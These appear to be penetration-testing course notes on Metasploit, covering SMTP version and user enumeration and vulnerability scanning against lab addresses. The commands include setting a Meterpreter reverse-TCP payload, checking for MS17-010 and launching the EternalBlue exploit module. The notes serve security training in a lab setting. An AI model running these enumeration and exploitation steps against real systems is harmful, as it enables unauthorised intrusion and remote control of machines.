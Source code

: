 ### SMTP enumeration

* SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email.
* SMTP uses TCP port 25 by default. It can also be configured to run on TCP port 465 and 587.
* We can utilize auxiliary modules to enumerate the version of SMTP as well as user accounts on the target system.

```
root@attackdefense> service postgresql start && msfconsole
msf5> workspace -a smtp_enum
msf5> setg rhosts 192.104.30.3
msf5> use auxiliary/scanner/smtp/smtp_version
msf5> run
```

```
msf5> use auxiliary/scanner/smtp/smtp_enum
msf5> run
```

### Vulnerability scanning

#### Definition

* Vulnerability scanning & detection is the process of scanning a target for vulnerabilities and verifying whether they can be exploited.
* So far, we have been able to identify and exploit misconfigurations on target systems, however, in this section we will be exploring the process of utilizing auxiliary and exploit modules to scan and identify inherent vulnerabilities in services, operating systems and web applications.
* This information will come in handy during the exploitation phase of this course.
* We will also be exploring the process of utilizing third party vulnerability scanning tools like Nessus and how we can integrate Nessus functionality in to the MSF.

#### Demo

**First method**

```bash
kali@kali> nmap -sn 10.10.10.1/24
kali@kali> service postgresql start && msfconsole

msf6> db_status
msf6> workspace -a vuln-scanning
msf6> setg rhosts 10.10.10.4
msf6> setg rhost 10.10.10.4

msf6> db_nmap 10.10.10.4 -sS -sV
msf6> search type:exploit name:iis
msf6> search type:exploit name:mysql
msf6> search Sun Glassfish
msf6> use exploit/mult/http/glassfish_deployer

msf6> info
msf6> set payload windows/meterpreter/reverse_tcp
msf6> options
msf6> back  # unusable service

msf6> searchsploit 'Microsoft Windows SMB' | grep Metasploit
msf6> search eternalblue
msf6> use auxiliary/scanner/smb/smb_ms17_010
msf6> run  # the service is vulnerable

msf6> use windows/smb/ms17_10_eternalblue
msf6> run

```